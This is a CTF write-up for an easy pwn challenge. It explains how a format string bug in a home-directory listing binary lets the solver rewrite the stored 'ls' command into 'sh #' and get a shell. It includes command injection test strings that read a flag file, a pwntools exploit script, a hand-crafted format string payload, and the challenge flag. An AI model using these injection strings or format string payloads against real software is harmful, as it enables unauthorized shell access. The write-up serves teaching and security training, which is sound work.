


# HomeLS

CTF: Sardinia Len CyberCamp 2026
Category: format_string, pwn
Difficulty: Easy
Date: 30 ottobre 2026
Authors: @alessaba @Alba Pellegrini

# Description

---

> 
> 
> 
> We made a very efficient tool to list the files in your home directory.
> 
> The %next feature is to be able to read files.
> 

## Overview

This speedrun challenge consists of a simple binary that lets you list the user’s files in their /home directory. The command for this is `ls`, which does not have the ability to read files, so the objective is to find a way to use a **different command** to print the flag.

# Solution

First of all the first important step is to run `pwn checksec`  to understand if there are any obvious security measures:

```arduino
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

### Running the binary



We can also try to use some special characters to test for command injection or path traversal.



By putting the `.` character we can list the contents of the */home* directory.
The `..` path traversal also works, but **Spoiler Alert**: just listing dirs will lead us 
nowhere.


#### Command injection attempts

```bash
; /bin/cat /home/ctf/flag.txt   # command inj -> 	;
$(/bin/cat /home/ctf/flag.txt)  # command inj -> 	$(cmd)
& cat /home/ctf/flag.txt        # command inj -> 	&
ctf \ncat /home/ctf/flag.txt	  # command inj ->  \x20\n
```

## Binary Analysis

Let’s now open the decompiler and look at the flow of the program, starting from the **main** function. 


The first things we can notice (aside from the *setup* and *print_banner* functions) is that the command that is used to list the home directories is stored inside the BSS section. Let’s remember that the **BSS** is a RW region, so we can overwrite data there.

Then the program asks for the username, which is then checked through a *blacklist* against command injections using the **strbrk** function.

Then the 3 printfs are used to print the previously inserted username in a colorful way.
We can notice that the middle one is using `&var_68` as the format string argument (instead of doing `printf("%s", var68);` ) . This is the vulnerability to exploit.

Then the last functions join the command in the BSS variable to the supplied username, and then **system** runs the command. **strtok** just executes the first line of the payload to avoid unintended payloads containing `\n` .

## Exploitation

The intended solution for this challenge is to exploit the initial existing part of the original `/bin/ls -l /home/` command  to only overwrite `ls` into `sh` to obtain a shell. 
Obtaining as final command `/bin/sh -l /home/` is not enough because the remaining `-l /home/` would make the sh command fail. 
We need to use a character to truncate the command. There is only a char not in the blacklist to achieve such a feat: `#` . 

The final working solve script is something along these lines:

```python
from pwn import *

# Local GDB and remote setup skipped
# ...

io = start()

bss_str = 0x573090 # The base of the binary is non-standard (**0x570000**)

# Original command: "/bin/ls -l /home/"
payload = fmtstr_payload(
	6+0xe, # Offset observed using GDB's stack telescope
	{bss_str + 5: u32(b"sh #")}, # We can start overwriting from the 5th char
) # 81 bytes long (we can shorten with the *write_size* argument)

print("Payload Length:", len(payload))
io.sendline(payload) 

io.interactive()
# $ cat flag.txt 
```

### Alternative solve

It was also possible (albeit slower to craft) to write the payload manually, without pwntools’s `fmtstr_payload` function:

```python
manual_payload = b"%35c%25$hhn%69c%26$hhn%11c%27$hhnaaaaaaa" + flat(
	bss_str + 8, # '#' character 
	# the \x20 char is already in the original string (bss_str + 7)
	bss_str + 6, # 'h' character
	bss_str + 5  # 's' character
) # 64 bytes long
```

---

Once we get the shell, we can just

```python
cat /home/ctf/flag.txt
```

#### **Flag: `srdnlen{F0rm4T_Str1ng_1s_S0_34sy}`**

# Links and tools

---

- Binary Ninja / IDA
- Netcat